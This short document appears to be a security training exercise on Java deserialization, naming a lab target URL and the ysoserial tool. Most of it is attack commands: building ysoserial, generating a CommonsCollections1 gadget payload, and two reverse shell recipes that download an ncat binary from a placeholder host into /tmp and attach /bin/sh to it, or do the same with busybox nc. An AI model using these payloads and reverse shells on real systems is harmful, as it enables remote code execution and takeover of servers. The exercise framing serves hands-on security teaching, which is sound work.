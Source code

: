 # Exercise 1 - Java Deserialization

Target:
http://httpwn.com:8001/

Tool:
https://github.com/frohoff/ysoserial

## Using ysoserial

Building the tool
```
git clone https://github.com/frohoff/ysoserial.git
mvn install
cd target
```

Generating CommonsCollections gadget
`java -jar ysoserial-**-all.jar CommonsCollections1 "<<YOUR COMMAND>>"`

List available gadgets
`java -jar ysoserial-0.0.6-SNAPSHOT-all.jar`

## Simple reverse shells

```
wget http://YOUR_HOST/ncat64 -P /tmp
chmod +x /tmp/ncat64
/tmp/ncat64 -e /bin/sh YOUR_HOST 8080
```

```
busybox nc YOUR_HOST 8080 -e /bin/sh
```
